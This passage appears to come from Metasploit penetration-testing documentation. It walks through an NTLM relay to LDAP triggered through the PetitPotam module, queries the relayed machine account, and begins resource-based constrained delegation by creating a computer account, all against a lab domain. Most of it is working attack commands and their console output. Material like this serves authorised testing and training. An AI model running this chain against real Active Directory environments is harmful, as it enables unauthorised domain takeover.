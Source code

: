 ```
[+] Relay succeeded
[*] LDAP session 1 opened (192.168.232.3:46691 -> 192.168.232.110:389) at 2025-01-23 19:19:18 +0100
[*] Received request for NEWLAB\VICTIM$
[*] Identity: NEWLAB\VICTIM$ - All targets relayed to

[+] 192.168.232.111:445   - Server responded with ERROR_BAD_NETPATH which indicates that the attack was successful
[*] 192.168.232.111:445   - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

msf6 auxiliary(scanner/dcerpc/petitpotam) > sessions

Active sessions
===============

  Id  Name  Type  Information                               Connection
  --  ----  ----  -----------                               ----------
  1         ldap  LDAP VICTIM$ @ 192.168.232.110:389  192.168.232.3:46691 -> 192.168.232.110:389 (192.168.232.110)

msf6 auxiliary(scanner/dcerpc/petitpotam) > sessions -i 1
[*] Starting interaction with 1...

LDAP (192.168.232.110) > query -f (sAMAccountName=VICTIM$)
CN=VICTIM,CN=Computers,DC=newlab,DC=local
===============================================

 Name                                      Attributes
 ----                                      ----------
 accountexpires                            9223372036854775807
 badpasswordtime                           133820110912034399
 badpwdcount                               0
 cn                                        VICTIM
 ...

LDAP (192.168.232.110) >
Background session 1? [y/N]
```

### Exploit Resource-based Constrained Delegation (RBCD)

For details about RCBD, see https://docs.metasploit.com/docs/pentesting/active-directory/kerberos/rbcd.html#rbcd-exploitation

- Create a computer account with the `admin/dcerpc/samr_account` module and the same Domain User account

```
msf6 auxiliary(admin/dcerpc/samr_account) > run verbose=true rhost=192.168.232.110 SMBUser=msfuser SMBPASS=123456 SMBDomain=newlab.local action=ADD_COMPUTER ACCOUNT_NAME=FAKE01$ ACCOUNT_PASSWORD=123456
[*] Running module against 192.168.232.110
[*] 192.168.232.110:445 - Adding computer
[*] 192.168.232.110:445 - Connecting to Security Account Manager (SAM) Remote Protocol
[*] 192.168.232.110:445 - Binding to \samr...
[+] 192.168.232.110:445 - Bound to \samr
[+] 192.168.232.110:445 - Successfully created newlab.local\FAKE01$
[+] 192.168.232.110:445 -   Password: 123456
[+] 192.168.232.110:445 -   SID:      S-1-5-21-3065298949-3337206023-618530601-1618
[*] Auxiliary module execution completed
```
